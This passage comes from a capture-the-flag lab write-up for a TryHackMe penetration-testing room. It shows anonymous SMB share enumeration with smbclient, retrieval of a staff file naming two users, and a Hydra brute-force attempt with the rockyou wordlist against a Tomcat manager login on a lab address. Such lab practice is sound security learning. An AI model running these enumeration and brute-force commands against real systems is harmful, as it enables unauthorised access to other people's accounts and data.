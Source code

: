 I began investigating the SMB service discovered during the initial Nmap scan. First, I listed available shares using:
```
smbclient -L \\10.201.48.211\\ -N
```
This revealed an anonymous share accessible without authentication. Connecting to it:
```
smbclient \\\\10.201.48.211\\anonymous -N
```

Inside, I found a file named `staff.txt` and downloaded it with:
```
get staff.txt
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Basic-Pentesting/Images/Screenshot%206.png)

Opening `staff.txt` revealed two potential usernames:
- Jan
- Kay

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Basic-Pentesting/Images/Screenshot%207.png)

I first created a text file containing both potential usernames (`jan` and `kay`) to test against the `/manager/html` login on port 8080 using Hydra. The command was:
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt http-get://10.201.48.211:8080/manager/html
```
However, this approach returned too many potential matches to be useful.
